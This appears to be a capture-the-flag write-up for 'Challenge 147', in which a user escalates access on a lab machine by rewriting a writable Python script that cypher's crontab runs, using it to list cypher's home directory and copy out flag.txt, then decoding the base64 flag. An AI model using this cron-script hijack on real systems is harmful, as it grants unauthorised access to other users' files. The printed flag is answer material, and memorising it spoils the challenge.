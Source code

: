 # Sysadmin part 8 - Challenge 147

There is some backup files in /backup that we have access to:

```
morpheus@forensics:~$ ls -l /backup
total 84
-rwxrwxr-x 1 root root 40960 Mar 12  2014 3dab3277410dddca016834f91d172027
-rwxrwxr-x 1 root root 10240 Mar 12  2014 776d27d2a429e63bbc3cb29183417bb2
-rwxrwxr-x 1 root root 20480 Mar 14  2014 c074fa6ec17bb35e168366c43cf4cd19
-rwxrwxr-x 1 root root 10240 Mar 12  2014 ca584b15ae397a9ad45b1ff267b55796
```

We have write access to /var/tmp so we can extract the files there. In one of those tar's we have a backup of cypher's crontab:

```
morpheus@forensics:/var/tmp/var/spool/cron/crontabs$ cat cypher
# m h  dom mon dow   command
*/3 * * * * python /tmp/Gathering.py
```

The crontab runs off a file to which we have write access to.

```
morpheus@forensics:/var/tmp/tmp$ cat Gathering.py
import os
os.system("ps aux > /home/cypher/info.txt")
```

So what we'll do is change that file to check what's in cypher's directory:

```
import os
os.system('ls -la /home/cypher > /var/tmp/test')
os.system('chmod 777 /var/tmp/test')
```

After a few minutes, we have a /var/tmp/test that contains the output from `ls`

```
morpheus@forensics:/var/tmp$ cat test
total 48
drwxr-x---  2 cypher cypher 4096 Mar 16  2014 .
drwxr-xr-x 10 root   root   4096 Jun 12  2014 ..
-rw-------  1 root   root      1 Mar 12  2014 .bash_history
-rw-r-----  1 cypher cypher  220 Dec 29  2012 .bash_logout
-rw-r-----  1 cypher cypher 3414 Mar  4  2014 .bashrc
-rwxr-x---  1 cypher cypher  177 Mar 16  2014 cronjob.sh
-rw-r-----  1 cypher cypher   52 Mar 12  2014 flag.txt
-rwxrwxrwt  1 cypher cypher 8726 Mar 24 01:30 info.txt
-rw-r-----  1 cypher cypher  675 Dec 29  2012 .profile
-rw-r-----  1 cypher cypher   19 Mar  4  2014 .vimrc
```

We'll edit Gathering.py again and cat flag.txt, getting the following:

```
morpheus@forensics:/var/tmp$ cat test
BASE ?
RkxBRy1weXMzZ2ZjenQ5cERrRXoyaW8wUHdkOEtOego=
```

Base64 decode it and bingo!
